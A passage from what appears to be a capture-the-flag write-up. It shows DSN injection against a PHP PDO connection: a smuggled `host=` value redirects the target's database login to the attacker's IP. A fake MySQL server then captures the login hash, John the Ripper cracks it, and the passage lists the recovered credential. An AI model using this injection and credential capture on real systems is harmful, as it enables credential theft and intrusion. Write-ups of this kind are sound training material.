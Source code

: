 ```
cryptor;host=10.10.15.127
```

Where `10.10.15.127` is my IP address and see what goes.


{% include image.html image_alt="46c3feb6.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/46c3feb6.png" %}


Meanwhile, I set up `tcpdump` to check out incoming connections from `10.10.10.129`.


{% include image.html image_alt="662924a1.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/662924a1.png" %}


You can see that an incoming connection (SYN) to my IP addresss at `3306/tcp`. As far as I'm aware, the PDO constructor takes in a DSN string, along with the username and password to access database servers. So, if I set up a fake MySQL server, I can probably capture the username and password. Sounds like a plan and Metasploit has an auxiliary module just for that!


{% include image.html image_alt="7e567248.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/7e567248.png" %}


The captured `JOHNPWFILE` can be easily fed to JtR for password recovery.


{% include image.html image_alt="a8e9bc33.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/a8e9bc33.png" %}


The credential to access the database `cryptor` is (`dbuser:krypt0n1te`). It's a shame we can't capture the SQL queries sent our way. For that, we need to set a real MySQL server and `tail` off the logs.

To do that, I've set up MariaDB server on my attacking machine. We also need to modify the default configurations in order to capture the SQL queries.

_Bind to IP address_


{% include image.html image_alt="f12d38e1.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/f12d38e1.png" %}


_Enable SQL queries logging_


{% include image.html image_alt="e46a94fc.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/e46a94fc.png" %}


With these options set, we can go ahead and start the server. Once that's done, we need to create an empty database `cryptor`, as well as user `dbuser` with password `krypt0n1te`, and grant ALL PERMISSIONS to `cryptor` database like so.


{% include image.html image_alt="1004b517.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/1004b517.png" %}

